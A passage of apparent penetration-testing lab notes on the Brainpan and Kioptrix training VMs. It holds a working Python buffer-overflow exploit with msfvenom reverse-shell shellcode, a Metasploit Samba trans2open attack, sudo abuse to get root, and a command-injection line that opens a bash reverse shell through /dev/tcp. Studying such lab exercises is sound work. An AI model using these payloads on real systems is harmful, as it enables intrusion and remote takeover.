"\x18\x29\x64\x40\x6c\xe6\x8b\xe1\xdb\xd0\xa2\xf2\x70\x20\xa5"
"\x70\x8b\x75\x05\x48\x44\x88\x44\x8d\xb9\x61\x14\x46\xb5\xd4"
"\x88\xe3\x83\xe4\x23\xbf\x02\x6d\xd0\x08\x24\x5c\x47\x02\x7f"
"\x7e\x66\xc7\x0b\x37\x70\x04\x31\x81\x0b\xfe\xcd\x10\xdd\xce"
"\x2e\xbe\x20\xff\xdc\xbe\x65\x38\x3f\xb5\x9f\x3a\xc2\xce\x64"
"\x40\x18\x5a\x7e\xe2\xeb\xfc\x5a\x12\x3f\x9a\x29\x18\xf4\xe8"
"\x75\x3d\x0b\x3c\x0e\x39\x80\xc3\xc0\xcb\xd2\xe7\xc4\x90\x81"
"\x86\x5d\x7d\x67\xb6\xbd\xde\xd8\x12\xb6\xf3\x0d\x2f\x95\x9b"
"\xe2\x02\x25\x5c\x6d\x14\x56\x6e\x32\x8e\xf0\xc2\xbb\x08\x07"
"\x24\x96\xed\x97\xdb\x19\x0e\xbe\x1f\x4d\x5e\xa8\xb6\xee\x35"
"\x28\x36\x3b\x99\x78\x98\x94\x5a\x28\x58\x45\x33\x22\x57\xba"
"\x23\x4d\xbd\xd3\xce\xb4\x56\x1c\xa6\xd3\xd2\xf4\xb5\x1b\x0a"
"\x59\x33\xfd\x46\x71\x15\x56\xff\xe8\x3c\x2c\x9e\xf5\xea\x49"
"\xa0\x7e\x19\xae\x6f\x77\x54\xbc\x18\x77\x23\x9e\x8f\x88\x99"
"\xb6\x4c\x1a\x46\x46\x1a\x07\xd1\x11\x4b\xf9\x28\xf7\x61\xa0"
"\x82\xe5\x7b\x34\xec\xad\xa7\x85\xf3\x2c\x25\xb1\xd7\x3e\xf3"
"\x3a\x5c\x6a\xab\x6c\x0a\xc4\x0d\xc7\xfc\xbe\xc7\xb4\x56\x56"
"\x91\xf6\x68\x20\x9e\xd2\x1e\xcc\x2f\x8b\x66\xf3\x80\x5b\x6f"
"\x8c\xfc\xfb\x90\x47\x45\x1b\x73\x4d\xb0\xb4\x2a\x04\x79\xd9"
"\xcc\xf3\xbe\xe4\x4e\xf1\x3e\x13\x4e\x70\x3a\x5f\xc8\x69\x36"
"\xf0\xbd\x8d\xe5\xf1\x97")

shellcode = "A" * 515 + "\xF3\x12\x17\x31" + "\x90" * 32 + overflow

#nops (padding bytes) = \x90 * 32

try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('192.168.101.103',9999))

        s.send(('TRUN /.:/' + shellcode))
        s.close
except:
        print "Error connecting to server!"
        sys.exit ()
```

- Kill Immunity and relaunch Brainpan.exe. In Kali, launch a netcat listener and then run our Python script. We get a shell on our local machine, which proves our exploit will work.

```sh
$ ./bof_shellcode.py
```


```sh
$ nc -lvnp 4444                     
listening on [any] 4444 ...

connect to [172.16.213.134] from (UNKNOWN) [172.16.213.142] 1482
Microsoft Windows [Version 10.0.19042.1288]
(c) Microsoft Corporation. All rights reserved.

C:\Users\sherwinowen\Downloads>
C:\Users\sherwinowen\Downloads>
```


```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.101.116:4444 
[*] Command shell session 1 opened (192.168.101.116:4444 -> 192.168.101.103:2196) at 2021-10-24 01:58:12 -0400


C:\Users\sherwinowen\Downloads>whoami
whoami
desktop-h5aksbg\sherwinowen

C:\Users\sherwinowen\Downloads>
```


```
# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:50:56:3d:33:03, IPv4: 192.168.101.116
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.101.103	00:0c:29:57:a0:26	VMware, Inc.
192.168.101.113	00:0c:29:d0:93:a3	VMware, Inc.
```

 **Generating and adding the shellcode**

- Linux shell reverse tcp

```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x86/shell_reverse_tcp
payload => linux/x86/shell_reverse_tcp
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x86/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST  192.168.101.116  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) >run

[*] Started reverse TCP handler on 192.168.101.116:4444 s
```


```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=172.16.213.142 IP LPORT=4444 EXITFUNC=thread -f c -e x86/shikata_ga_nai -a x86 -b "\x00" >shellcode
```


```sh
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=172.16.213.134 IP LPORT=4444 EXITFUNC=thread -f c -e x86/shikata_ga_nai -a x86 -b "\x00" >shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
                                                                                                                                      
(root💀kali)-[/home/kali/my_tools/buffer_overflow]
└─# cat shellcode                                                                         
unsigned char buf[] = 
"\xbe\x29\xa3\x7e\xb6\xd9\xc5\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x12\x31\x70\x12\x83\xc0\x04\x03\x59\xad\x9c\x43\xa8\x6a\x97"
"\x4f\x99\xcf\x0b\xfa\x1f\x59\x4a\x4a\x79\x94\x0d\x38\xdc\x96"
"\x31\xf2\x5e\x9f\x34\xf5\x36\x8c\xd7\xd0\x40\xa4\xd5\xda\x5d"
"\x69\x53\x3b\xed\xf7\x33\xed\x5e\x4b\xb0\x84\x81\x66\x37\xc4"
"\x29\x17\x17\x9a\xc1\x8f\x48\x73\x73\x39\x1e\x68\x21\xea\xa9"
"\x8e\x75\x07\x67\xd0";

```

**bof_shellcode.py**

```
#!/usr/bin/python
import sys, socket

#esp return address = 311712F3

overflow = ("\xbe\x29\xa3\x7e\xb6\xd9\xc5\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x12\x31\x70\x12\x83\xc0\x04\x03\x59\xad\x9c\x43\xa8\x6a\x97"
"\x4f\x99\xcf\x0b\xfa\x1f\x59\x4a\x4a\x79\x94\x0d\x38\xdc\x96"
"\x31\xf2\x5e\x9f\x34\xf5\x36\x8c\xd7\xd0\x40\xa4\xd5\xda\x5d"
"\x69\x53\x3b\xed\xf7\x33\xed\x5e\x4b\xb0\x84\x81\x66\x37\xc4"
"\x29\x17\x17\x9a\xc1\x8f\x48\x73\x73\x39\x1e\x68\x21\xea\xa9"
"\x8e\x75\x07\x67\xd0")

shellcode = "A" * 515 + "\xF3\x12\x17\x31" + "\x90" * 32 + overflow

#nops (padding bytes) = \x90 * 32

try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('192.168.101.113',9999))

        s.send(('TRUN /.:/' + shellcode))
        s.close
except:
        print "Error connecting to server!"
        sys.exit ()
```


```
./bof_shellcode.py 
```


```sh
# nc -lvnp 4444                                                                                                 1 ⨯
listening on [any] 4444 ...
connect to [172.16.213.134] from (UNKNOWN) [172.16.213.143] 34659
id
uid=1002(puck) gid=1002(puck) groups=1002(puck)

```


```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.101.116:4444 
[*] Command shell session 2 opened (192.168.101.116:4444 -> 192.168.101.113:32871) at 2021-10-24 02:03:37 -0400


id 
uid=1002(puck) gid=1002(puck) groups=1002(puck)
python -c 'import pty;pty.spawn("/bin/bash")'
puck@brainpan:/home/puck$ export TERM=xterm
export TERM=xterm
puck@brainpan:/home/puck$ sudo -l
sudo -l
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
puck@brainpan:/home/puck$ sudo /home/anansi/bin/anansi_util
sudo /home/anansi/bin/anansi_util
Usage: /home/anansi/bin/anansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
puck@brainpan:/home/puck$ sudo /home/anansi/bin/anansi_util manual /bin/bash
```


```
BASH(1)                                                                BASH(1)

NAME
       bash - GNU Bourne-Again SHell

SYNOPSIS
       bash [options] [file]

COPYRIGHT
       Bash is Copyright (C) 1989-2011 by the Free Software Foundation, Inc.

DESCRIPTION
       Bash  is  an  sh-compatible  command language interpreter that executes
       commands read from the standard input or from a file.  Bash also incor‐
       porates useful features from the Korn and C shells (ksh and csh).

       Bash  is  intended  to  be a conformant implementation of the Shell and
       Utilities portion  of  the  IEEE  POSIX  specification  (IEEE  Standard
       1003.1).  Bash can be configured to be POSIX-conformant by default.

OPTIONS
       All  of  the  single-character shell options documented in the descrip‐
       tion of the set builtin command can be used as options when  the  shell
 Manual page bash(1) line 1 (press h for help or q to quit)!/bin/bash

```


```
root@brainpan:/usr/share/man# whoami
whoami
root
root@brainpan:/usr/share/man# cd ~
cd ~
root@brainpan:~# ls
ls
b.txt
root@brainpa            

root@brainpan:~# cat b.txt
cat b.txt
_|                            _|                                        
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|                          
                                            _|


                                              http://www.techorganic.com 
```

## Kioptrix Level 1 

1. Get VMs IP

   ```sh
   $ netdiscover -r 192.168.101.0/24
   
   Currently scanning: Finished!   |   Screen View: Unique Hosts                                                               
    51 Captured ARP Req/Rep packets, from 15 hosts.   Total size: 3060                                                  
    _____________________________________________________________________________
      IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
    -----------------------------------------------------------------------------         
    192.168.101.103 00:0c:29:cc:09:8f      4     240  VMware, Inc.   
   ```

   

2. Enumeration

   ```sh
   $ nmap -sV -T4 -p- 192.168.101.103                                                                            130 ⨯
   Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-25 22:33 EDT
   Nmap scan report for 192.168.101.103
   Host is up (0.0016s latency).
   Not shown: 65529 closed ports
   PORT     STATE SERVICE     VERSION
   22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
   80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
   111/tcp  open  rpcbind     2 (RPC #100000)
   139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
   443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
   1024/tcp open  status      1 (RPC #100024)
   MAC Address: 00:0C:29:CC:09:8F (VMware)
   
   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 21.65 seconds
   
   ```

   Aggressive scanning

   

   

   Nikto

   ```sh
   $ nikto -h 192.168.101.103 
   - Nikto v2.1.6
   ---------------------------------------------------------------------------
   + Target IP:          192.168.101.103
   + Target Hostname:    192.168.101.103
   + Target Port:        80
   + Start Time:         2021-10-26 01:54:51 (GMT-4)
   ---------------------------------------------------------------------------
   + Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
   + Server may leak inodes via ETags, header found with file /, inode: 34821, size: 2890, mtime: Wed Sep  5 23:12:46 2001
   + The anti-clickjacking X-Frame-Options header is not present.
   + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
   + The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
   + OSVDB-27487: Apache is vulnerable to XSS via the Expect header
   + Apache/1.3.20 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
   + OpenSSL/0.9.6b appears to be outdated (current is at least 1.1.1). OpenSSL 1.0.0o and 0.9.8zc are also current.
   + mod_ssl/2.8.4 appears to be outdated (current is at least 2.8.31) (may depend on server version)
   + Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE 
   + OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
   + OSVDB-838: Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution. CAN-2002-0392.
   + OSVDB-4552: Apache/1.3.20 - Apache 1.3 below 1.3.27 are vulnerable to a local buffer overflow which allows attackers to kill any process on the system. CAN-2002-0839.
   + OSVDB-2733: Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi. CAN-2003-0542.
   + mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
   + ///etc/hosts: The server install allows reading of any system file by adding an extra '/' to the URL.
   + OSVDB-682: /usage/: Webalizer may be installed. Versions lower than 2.01-09 vulnerable to Cross Site Scripting (XSS).
   + OSVDB-3268: /manual/: Directory indexing found.
   + OSVDB-3092: /manual/: Web server manual found.
   + OSVDB-3268: /icons/: Directory indexing found.
   + OSVDB-3233: /icons/README: Apache default file found.
   + OSVDB-3092: /test.php: This might be interesting...
   + /wp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
   + /wordpresswp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
   + /wp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
   + /wordpresswp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
   + /wp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
   + /wordpresswp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
   + /assets/mobirise/css/meta.php?filesrc=: A PHP backdoor file manager was found.
   + /login.cgi?cli=aa%20aa%27cat%20/etc/hosts: Some D-Link router remote command execution.
   + /shell?cat+/etc/hosts: A backdoor was identified.
   + 8724 requests: 0 error(s) and 30 item(s) reported on remote host
   + End Time:           2021-10-26 01:55:37 (GMT-4) (46 seconds)
   ---------------------------------------------------------------------------
   + 1 host(s) tested
   ```

   DIR

   ```sh
   $ dirb http://192.168.101.103
   
   -----------------
   DIRB v2.22    
   By The Dark Raver
   -----------------
   
   START_TIME: Tue Oct 26 01:54:58 2021
   URL_BASE: http://192.168.101.103/
   WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
   
   -----------------
   
   GENERATED WORDS: 4612                                                          
   
   ---- Scanning URL: http://192.168.101.103/ ----
   + http://192.168.101.103/~operator (CODE:403|SIZE:273)                                                               
   + http://192.168.101.103/~root (CODE:403|SIZE:269)                                                                   
   + http://192.168.101.103/cgi-bin/ (CODE:403|SIZE:272)                                                                
   + http://192.168.101.103/index.html (CODE:200|SIZE:2890)                                                             
   ==> DIRECTORY: http://192.168.101.103/manual/                                                                        
   ==> DIRECTORY: http://192.168.101.103/mrtg/                                                                          
   ==> DIRECTORY: http://192.168.101.103/usage/                                                                         
                                                                                                                        
   ---- Entering directory: http://192.168.101.103/manual/ ----
   (!) WARNING: Directory IS LISTABLE. No need to scan it.                        
       (Use mode '-w' if you want to scan it anyway)
                                                                                                                        
   ---- Entering directory: http://192.168.101.103/mrtg/ ----
   + http://192.168.101.103/mrtg/index.html (CODE:200|SIZE:17318)                                                       
                                                                                                                        
   ---- Entering directory: http://192.168.101.103/usage/ ----
   + http://192.168.101.103/usage/index.html (CODE:200|SIZE:4286)                                                       
                                                                                                                        
   -----------------
   END_TIME: Tue Oct 26 01:55:46 2021
   DOWNLOADED: 13836 - FOUND: 6
   ```

   Enumerating SMB identified from our nmap scans (port 139)our target machine.

   Enum4linux

   ```sh
   $ enum4linux 192.168.101.103             
   Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Tue Oct 26 02:09:03 2021
   
    ========================== 
   |    Target Information    |
    ========================== 
   Target ........... 192.168.101.103
   RID Range ........ 500-550,1000-1050
   Username ......... ''
   Password ......... ''
   Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
   
   
    ======================================================= 
   |    Enumerating Workgroup/Domain on 192.168.101.103    |
    ======================================================= 
   [+] Got domain/workgroup name: MYGROUP
   
    =============================================== 
   |    Nbtstat Information for 192.168.101.103    |
    =============================================== 
   Looking up status of 192.168.101.103
   	KIOPTRIX        <00> -         B <ACTIVE>  Workstation Service
   	KIOPTRIX        <03> -         B <ACTIVE>  Messenger Service
   	KIOPTRIX        <20> -         B <ACTIVE>  File Server Service
   	..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
   	MYGROUP         <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
   	MYGROUP         <1d> -         B <ACTIVE>  Master Browser
   	MYGROUP         <1e> - <GROUP> B <ACTIVE>  Browser Service Elections
   
   	MAC Address = 00-00-00-00-00-00
   
    ======================================== 
   |    Session Check on 192.168.101.103    |
    ======================================== 
   [E] Server doesn't allow session using username '', password ''.  Aborting remainder of tests.
   ```

   

   

   Find SMB version using Nmap

   ```sh
   msf6 > use auxiliary/scanner/smb/smb_version 
   msf6 auxiliary(scanner/smb/smb_version) > options
   
   Module options (auxiliary/scanner/smb/smb_version):
   
      Name     Current Setting  Required  Description
      ----     ---------------  --------  -----------
      RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<p
                                          ath>'
      THREADS  1                yes       The number of concurrent threads (max one per host)
   
   msf6 auxiliary(scanner/smb/smb_version) > set rhosts 192.168.101.103
   rhosts => 192.168.101.103
   msf6 auxiliary(scanner/smb/smb_version) > run
   
   [*] 192.168.101.103:139   - SMB Detected (versions:) (preferred dialect:) (signatures:optional)
   [*] 192.168.101.103:139   -   Host could not be identified: Unix (Samba 2.2.1a)
   [*] 192.168.101.103:      - Scanned 1 of 1 hosts (100% complete)
   [*] Auxiliary module execution completed
   ```

   Find information about samba 2.2

   ```
   msf6 auxiliary(scanner/smb/smb_version) > searchsploit samba 2.2
   [*] exec: searchsploit samba 2.2
   
   ------------------------------------------------------------------------------------ ---------------------------------
    Exploit Title                                                                      |  Path
   ------------------------------------------------------------------------------------ ---------------------------------
   Samba 2.0.x/2.2 - Arbitrary File Creation                                           | unix/remote/20968.txt
   Samba 2.2.0 < 2.2.8 (OSX) - trans2open Overflow (Metasploit)                        | osx/remote/9924.rb
   Samba 2.2.2 < 2.2.6 - 'nttrans' Remote Buffer Overflow (Metasploit) (1)             | linux/remote/16321.rb
   Samba 2.2.8 (BSD x86) - 'trans2open' Remote Overflow (Metasploit)                   | bsd_x86/remote/16880.rb
   Samba 2.2.8 (Linux Kernel 2.6 / Debian / Mandrake) - Share Privilege Escalation     | linux/local/23674.txt
   Samba 2.2.8 (Linux x86) - 'trans2open' Remote Overflow (Metasploit)                 | linux_x86/remote/16861.rb
   Samba 2.2.8 (OSX/PPC) - 'trans2open' Remote Overflow (Metasploit)                   | osx_ppc/remote/16876.rb
   Samba 2.2.8 (Solaris SPARC) - 'trans2open' Remote Overflow (Metasploit)             | solaris_sparc/remote/16330.rb
   Samba 2.2.8 - Brute Force Method Remote Command Execution                           | linux/remote/55.c
   Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (1)                          | unix/remote/22468.c
   Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (2)                          | unix/remote/22469.c
   Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (3)                          | unix/remote/22470.c
   Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (4)                          | unix/remote/22471.txt
   Samba 2.2.x - 'nttrans' Remote Overflow (Metasploit)                                | linux/remote/9936.rb
   Samba 2.2.x - CIFS/9000 Server A.01.x Packet Assembling Buffer Overflow             | unix/remote/22356.c
   Samba 2.2.x - Remote Buffer Overflow                                                | linux/remote/7.pl
   Samba < 2.2.8 (Linux/BSD) - Remote Code Execution                                   | multiple/remote/10.c
   Samba < 2.2.8 (Linux/BSD) - Remote Code Execution                                   | multiple/remote/10.c
   Samba < 3.0.20 - Remote Heap Overflow                                               | linux/remote/7701.txt
   Samba < 3.6.2 (x86) - Denial of Service (PoC)                                       | linux_x86/dos/36741.py
   ------------------------------------------------------------------------------------ ---------------------------------
   Shellcodes: No Results
   ```

   ```sh
   msf6 auxiliary(scanner/smb/smb_version) > search trans2open
   
   Matching Modules
   ================
   
      #  Name                              Disclosure Date  Rank   Check  Description
      -  ----                              ---------------  ----   -----  -----------
      0  exploit/freebsd/samba/trans2open  2003-04-07       great  No     Samba trans2open Overflow (*BSD x86)
      1  exploit/linux/samba/trans2open    2003-04-07       great  No     Samba trans2open Overflow (Linux x86)
      2  exploit/osx/samba/trans2open      2003-04-07       great  No     Samba trans2open Overflow (Mac OS X PPC)
      3  exploit/solaris/samba/trans2open  2003-04-07       great  No     Samba trans2open Overflow (Solaris SPARC)
   
   
   Interact with a module by name or index. For example info 3, use 3 or use exploit/solaris/samba/trans2open
   ```

   Setup the exploit

   ```
   msf6 > use 1
   msf6 exploit(linux/samba/trans2open) > options
   
   Module options (exploit/linux/samba/trans2open):
   
      Name    Current Setting  Required  Description
      ----    ---------------  --------  -----------
      RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<pa
                                         th>'
      RPORT   139              yes       The target port (TCP)
   
   
   Payload options (linux/x86/meterpreter/reverse_tcp):
   
      Name   Current Setting  Required  Description
      ----   ---------------  --------  -----------
      LHOST  192.168.101.101  yes       The listen address (an interface may be specified)
      LPORT  4444             yes       The listen port
   
   
   Exploit target:
   
      Id  Name
      --  ----
      0   Samba 2.2.x - Bruteforce
   
   
   msf6 exploit(linux/samba/trans2open) > 
   ```

   Setup payload

   ```
   msf6 exploit(linux/samba/trans2open) > set rhosts 192.168.101.103
   rhosts => 192.168.101.103
   msf6 exploit(linux/samba/trans2open) > show payloads 
   
   Compatible Payloads
   ===================
   
      #   Name                                              Disclosure Date  Rank    Check  Description
      -   ----                                              ---------------  ----    -----  -----------
      0   payload/generic/custom                                             normal  No     Custom Payload
      1   payload/generic/debug_trap                                         normal  No     Generic x86 Debug Trap
      2   payload/generic/shell_bind_tcp                                     normal  No     Generic Command Shell, Bind TCP Inline
      3   payload/generic/shell_reverse_tcp                                  normal  No     Generic Command Shell, Reverse TCP Inline
      4   payload/generic/tight_loop                                         normal  No     Generic x86 Tight Loop
      5   payload/linux/x86/adduser                                          normal  No     Linux Add User
      6   payload/linux/x86/chmod                                            normal  No     Linux Chmod
      7   payload/linux/x86/exec                                             normal  No     Linux Execute Command
      8   payload/linux/x86/meterpreter/bind_ipv6_tcp                        normal  No     Linux Mettle x86, Bind IPv6 TCP Stager (Linux x86)
      9   payload/linux/x86/meterpreter/bind_ipv6_tcp_uuid                   normal  No     Linux Mettle x86, Bind IPv6 TCP Stager with UUID Support (Linux x86)
      10  payload/linux/x86/meterpreter/bind_nonx_tcp                        normal  No     Linux Mettle x86, Bind TCP Stager
      11  payload/linux/x86/meterpreter/bind_tcp                             normal  No     Linux Mettle x86, Bind TCP Stager (Linux x86)
      12  payload/linux/x86/meterpreter/bind_tcp_uuid                        normal  No     Linux Mettle x86, Bind TCP Stager with UUID Support (Linux x86)
      13  payload/linux/x86/meterpreter/reverse_ipv6_tcp                     normal  No     Linux Mettle x86, Reverse TCP Stager (IPv6)
      14  payload/linux/x86/meterpreter/reverse_nonx_tcp                     normal  No     Linux Mettle x86, Reverse TCP Stager
      15  payload/linux/x86/meterpreter/reverse_tcp                          normal  No     Linux Mettle x86, Reverse TCP Stager
      16  payload/linux/x86/meterpreter/reverse_tcp_uuid                     normal  No     Linux Mettle x86, Reverse TCP Stager
      17  payload/linux/x86/metsvc_bind_tcp                                  normal  No     Linux Meterpreter Service, Bind TCP
      18  payload/linux/x86/metsvc_reverse_tcp                               normal  No     Linux Meterpreter Service, Reverse TCP Inline
      19  payload/linux/x86/read_file                                        normal  No     Linux Read File
      20  payload/linux/x86/shell/bind_ipv6_tcp                              normal  No     Linux Command Shell, Bind IPv6 TCP Stager (Linux x86)
      21  payload/linux/x86/shell/bind_ipv6_tcp_uuid                         normal  No     Linux Command Shell, Bind IPv6 TCP Stager with UUID Support (Linux x86)
      22  payload/linux/x86/shell/bind_nonx_tcp                              normal  No     Linux Command Shell, Bind TCP Stager
      23  payload/linux/x86/shell/bind_tcp                                   normal  No     Linux Command Shell, Bind TCP Stager (Linux x86)
      24  payload/linux/x86/shell/bind_tcp_uuid                              normal  No     Linux Command Shell, Bind TCP Stager with UUID Support (Linux x86)
      25  payload/linux/x86/shell/reverse_ipv6_tcp                           normal  No     Linux Command Shell, Reverse TCP Stager (IPv6)
      26  payload/linux/x86/shell/reverse_nonx_tcp                           normal  No     Linux Command Shell, Reverse TCP Stager
      27  payload/linux/x86/shell/reverse_tcp                                normal  No     Linux Command Shell, Reverse TCP Stager
      28  payload/linux/x86/shell/reverse_tcp_uuid                           normal  No     Linux Command Shell, Reverse TCP Stager
      29  payload/linux/x86/shell_bind_ipv6_tcp                              normal  No     Linux Command Shell, Bind TCP Inline (IPv6)
      30  payload/linux/x86/shell_bind_tcp                                   normal  No     Linux Command Shell, Bind TCP Inline
      31  payload/linux/x86/shell_bind_tcp_random_port                       normal  No     Linux Command Shell, Bind TCP Random Port Inline
      32  payload/linux/x86/shell_reverse_tcp                                normal  No     Linux Command Shell, Reverse TCP Inline
      33  payload/linux/x86/shell_reverse_tcp_ipv6                           normal  No     Linux Command Shell, Reverse TCP Inline (IPv6)
   msf6 exploit(linux/samba/trans2open) > 
   msf6 exploit(linux/samba/trans2open) > set payload linux/x86/shell_reverse_tcp
   payload => linux/x86/shell_reverse_tcp
   ```

   ```
   msf6 exploit(linux/samba/trans2open) > run
   
   [*] Started reverse TCP handler on 192.168.101.101:4444 
   [*] 192.168.101.103:139 - Trying return address 0xbffffdfc...
   [*] 192.168.101.103:139 - Trying return address 0xbffffcfc...
   [*] 192.168.101.103:139 - Trying return address 0xbffffbfc...
   [*] 192.168.101.103:139 - Trying return address 0xbffffafc...
   [*] 192.168.101.103:139 - Trying return address 0xbffff9fc...
   [*] 192.168.101.103:139 - Trying return address 0xbffff8fc...
   [*] Command shell session 1 opened (192.168.101.101:4444 -> 192.168.101.103:1032) at 2021-10-26 02:33:55 -0400
   
   [*] Command shell session 2 opened (192.168.101.101:4444 -> 192.168.101.103:1033) at 2021-10-26 02:33:56 -0400
   [*] Command shell session 3 opened (192.168.101.101:4444 -> 192.168.101.103:1034) at 2021-10-26 02:33:57 -0400
   whoami	
   root
   hostname
   kioptrix.level1
   ```

   

## Kioptrix Level 2

1. Get VMs IP

   ```sh
   $ netdiscover -r 192.168.101.0/24 
   Currently scanning: Finished!   |   Screen View: Unique Hosts                                                       
                                                                                                                        
    85 Captured ARP Req/Rep packets, from 14 hosts.   Total size: 5120                                                  
    _____________________________________________________________________________
      IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
    -----------------------------------------------------------------------------          192.168.101.105 00:0c:29:53:19:4c      2     120  VMware, Inc.                    
   ```

2. Enumeration

   ```sh
   $ nmap -sV -T4 192.168.101.105
   Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-29 19:10 EDT
   Nmap scan report for 192.168.101.105
   Host is up (0.0030s latency).
   Not shown: 994 closed ports
   PORT     STATE SERVICE  VERSION
   22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
   80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
   111/tcp  open  rpcbind  2 (RPC #100000)
   443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
   631/tcp  open  ipp      CUPS 1.1
   3306/tcp open  mysql    MySQL (unauthorized)
   MAC Address: 00:0C:29:53:19:4C (VMware)
   
   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 14.62 seconds
   ```

   ```sh
   $ nmap -sV -T4 -O 192.168.101.112
   Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-29 19:51 EDT
   Nmap scan report for 192.168.101.112
   Host is up (0.0010s latency).
   Not shown: 994 closed ports
   PORT     STATE SERVICE  VERSION
   22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
   80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
   111/tcp  open  rpcbind  2 (RPC #100000)
   443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
   631/tcp  open  ipp      CUPS 1.1
   3306/tcp open  mysql    MySQL (unauthorized)
   MAC Address: 00:0C:29:53:19:4C (VMware)
   Device type: general purpose
   Running: Linux 2.6.X
   OS CPE: cpe:/o:linux:linux_kernel:2.6
   OS details: Linux 2.6.9 - 2.6.30
   Network Distance: 1 hop
   ```

   

3. Web Server

   

- Admin interface


- Input: 

  127.0.0.1

  Output:

  

- Input: 127.0.0.1; whoami
  Output:

  

3. Reverse Shell

   ```sh
   $ nc -nlvp 5555
   listening on [any] 5555 ...
   ```

   Now let’s connect back to it from the Kioptrix website:

   Enter this for the “ping” field:

   ```
   127.0.0.1; bash -i >& /dev/tcp/192.168.101.111/5555 0>&1
   ```

   This would give us reverse shell

   ```sh
   $ nc -nlvp 5555
